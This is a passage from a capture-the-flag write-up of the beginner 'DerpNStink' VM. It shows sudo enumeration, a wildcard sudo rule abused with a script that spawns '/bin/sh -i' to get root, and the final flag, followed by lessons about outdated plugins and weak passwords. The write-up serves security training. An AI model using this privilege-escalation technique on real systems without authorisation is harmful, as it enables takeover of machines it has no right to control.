 Ha! Basic enumeration is looking which `sudo` privileges someone has:
```
mrderp@DeRPnStiNK:/home/stinky/ftp/files/network-logs$ sudo -l
[sudo] password for mrderp:
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```
That means that we are able to use all commands as privileged user when we start something in `/home/mrderp/binaries/` which is starting with filename `derpy`.  
I created a simple BASH script for that:
```
#!/bin/bash
/bin/sh -i
```

Running it with `sudo`:
```
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpy_root.sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
Desktop  Documents  Downloads
# ls /root/Desktop
flag.txt
# cat /root/Desktop/flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo


#
```

We have our last flag!

## Conclusion

This was a easy boot2root VM, as it says 'beginner' level. We saw that using outdated versions of plugins is a bad thing, just keep them up to date. Also using weak passwords is a bad thing.
And enumeration is the key to success. Overall it was a funny VM which I enjoyed.

![](https://i.imgur.com/FkbH50O.jpg)